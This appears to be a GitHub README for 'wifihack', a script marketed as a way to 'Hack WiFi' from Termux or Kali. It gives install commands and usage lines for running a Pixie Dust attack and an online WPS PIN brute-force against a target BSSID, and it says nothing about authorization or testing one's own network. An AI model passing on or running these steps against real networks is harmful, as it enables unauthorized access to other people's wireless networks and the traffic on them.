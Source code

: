 # wifihack

Hack WIfi Using Termux! (Requires Root)
Installation :


$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/rareblack35/wifihack

$ cd wifihack

$ chmod +x dark.py

$ sudo python dark.py --help


Example : sudo python3 dark.py -i wlan0 -K

Note:

First turn off your Wifi.

Hack WIfi Using Kali!

Installation :

$ git clone https://github.com/rareblack35/wifihack

$ cd wifihack

$ chmod +x dark.py

$ sudo python3 dark.py -i wlan1 -K

$ sudo python dark.py --help

Example : sudo python3 dark.py -i wlan0 -K
Note:

    Show avaliable networks and start Pixie Dust attack on a specified network.
    sudo python3 dark.py -i wlan0 -K
        Start Pixie Dust attack on a specified BSSID: sudo python dark.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
    Launch online WPS bruteforce with the specified first half of the PIN:
    sudo python dark.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

